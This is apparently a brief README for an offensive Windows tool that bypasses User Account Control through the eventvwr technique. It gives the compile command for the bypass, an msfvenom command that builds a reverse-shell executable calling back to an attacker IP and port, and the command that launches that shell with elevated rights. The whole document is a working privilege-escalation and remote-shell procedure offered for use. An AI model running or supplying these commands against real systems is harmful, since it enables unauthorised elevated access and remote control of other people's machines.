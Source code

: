 
Tool to bypass UAC with eventvwr

compile
`x86_64-w64-mingw32-gcc eventvwr-bypassuac.c -o eventvwr-bypassuac-64.exe`


gerneratel exe to be executed
`msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp LHOST=192.168.119.178 LPORT=3333 -f exe -o reverse_3333.exe`

place both exe files in the same folder. then

`eventvwr-bypassuac-64.exe reverse_3333.exe`